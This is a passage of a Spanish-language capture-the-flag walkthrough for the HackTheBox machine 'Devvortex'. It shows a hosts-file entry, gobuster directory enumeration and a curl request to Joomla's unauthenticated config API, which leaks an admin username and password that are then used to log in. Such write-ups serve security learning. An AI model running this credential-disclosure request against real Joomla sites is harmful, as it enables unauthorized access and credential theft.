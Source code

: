Y tambien lo añadiremos tambien a nuestro archivo de hosts la nueva url que ha encontrado.

```
echo “10.10.11.242 dev.devvortex.htb” | sudo tee –a /etc/hosts
```
Volveremos a usar la herramienta gobuster con esta nueva direccion haber que encontramos, usando de nuevo el mismo diccionario.

```
gobuster dir -u dev.devvortex.htb -w /home/pingu/Escritorio/Diccionarios/common.txt
```


Si entramos en la nueva direccion que nos ha dado gobuster veremos la otra web y en el directorio /robots.txt veremos otros directorios donde nos podemos meter.
![Branching](/imagenes/robots.jpg)

LA que nos interesa es "administrador" asi que lo ponemos en nuestra barra de navegador quedando asi : http://dev.devvortex.htb//administrator/ y veremos un subdominio para loguear con una cuenta
![Branching](/imagenes/administrador.jpg)

Si no fijamos esta hecha en la plataforma Joomla, haciendo una busqueda por internet podemos encontrar una vulnerabilidad en joombla

https://vulncheck.com/blog/joomla-for-rce

Utilizando el comando siguiente podremos enonctrar un usuario y una contraseña

```
curl http://dev.devvortex.htb/api/index.php/v1/config/application?public=true | jq

  "type": "application",
      "id": "224",
      "attributes": {
        "user": "lewis",
        "id": 224
      }
    },
    {
      "type": "application",
      "id": "224",
      "attributes": {
        "password": "P4ntherg0t1n5r3c0n##",
        "id": 224

```

user: lewis
password: P4ntherg0t1n5r3c0n##

Pues si nos vamos al login de joomla de antes y introducimos el usuario y la contraseña que hemos descubierto podremos entrar.

![Branching](/imagenes/lewis.jpg)
![Branching](/imagenes/dashboard.jpg)
